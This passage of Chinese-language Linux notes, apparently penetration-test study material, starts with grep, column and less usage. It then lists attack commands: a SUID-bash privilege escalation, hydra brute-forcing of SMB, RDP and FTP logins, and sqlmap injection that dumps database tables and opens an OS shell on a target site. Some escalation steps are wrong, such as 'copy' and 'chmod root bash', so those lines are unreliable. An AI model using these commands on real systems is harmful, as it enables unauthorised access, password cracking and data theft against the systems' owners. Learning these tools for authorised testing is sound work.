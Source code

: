     - grep -l "function" \*.c (只列出包含"function" 的文件名)
    - grep -c "success" output.log (統計包含"success" 的行數)

**在Linux下開啟CSV檔並且進行簡易查看**

- column -s, -t &lt; 123 | less -#2 -N -S

`column`用來整理輸入內容，使其以表格形式顯示

| 組件 | 說明 |
| --- | --- |
| `column` | 將資料整理成「欄狀」格式（table columns）顯示的工具 |
| `-s,` | 使用 `,`（逗號）作為欄位的分隔符號（separator） |
| `-t` | 自動對齊各欄位，輸出成「表格格式」（table） |
| `< 123` | 從檔案 `123` 讀入資料（`<` 是標準輸入導向符號） |

`less` 指令查看文字檔案的時候所使用的選項組合

| 參數 | 功能說明 |
| --- | --- |
| `-#2` | 設定橫向捲動的單位為 2 個字元（當你按下左右鍵時，每次橫向移動 2 格）（這個 `#` 是代表數值的符號，實際上是 `-#` 選項的一部分） |
| `-N` | 顯示每一行的行號（line numbers） |
| `-S` | 不自動換行（**S**uppress line wrapping）——如果一行太長，就用左右鍵橫向移動，而不是自動換行 |

- column -s$'\t' -t &lt; file.txt   # 使用 tab 分隔
- column -s: -t &lt; file.txt       # 使用冒號分隔

**Linux提權方法**

- Linux 提權
    - copy /usr/bin/bash .
    - chmod root bash
    - chmod 4755 ./bash
    - ./bash -p
    - id
- 將原本帳號加入sudor
    - visudo

**用HYDRA破密攻擊**

- 利用hydra破密
    - hydra -L user.list -P password.list smb://XXX
    - 密碼表在：
        - /usr/share/wordlists/nmap.lst
- 利用hydra破解RDP連線密碼
    - hydra -l UserName -P password.txt rdp://ip
- 利用hydra破解FTP連線密碼
    - hydra -L user.list -P passwordlist ftp://10.10.10.10

**SQLMAP之SQL注入攻擊法**

- 針對MSSQL Web之隱碼攻擊
    - wapiti -u &lt;url&gt; [-m sql] -&gt;This Will give the vulnerable parameter
    - 先登入並且取得cookie
    - sqlmap -u "url" --cookie="" --dbs
        - 變型，讓sqlmap自己去找插入點：
            - sqlmap -u "url" --forms --crawl=2 --cookie=""
    - sqlmap -u "url" --cookie="" -D XXX --tables
    - sqlmap -u "url" --cookie="" -D XXX -T DDD --columns --technique=B (technique=B表示用盲目攻擊方式)
    - sqlmap -u "url" --cookie="" -D XXX -T DDD --dump --technique=B (technique=B表示用盲目攻擊方式)
- 找到某個參數網頁
    - [http://aa.bb.com/?cid=99](http://aa.bb.com/?cid=99)
- 進入OS－Shell
    - sqlmap -u "[http://www.example.com/viewprofile.aspx?id=1](http://www.example.com/viewprofile.aspx?id=1)" --cookie="cookies xxx" --os-shell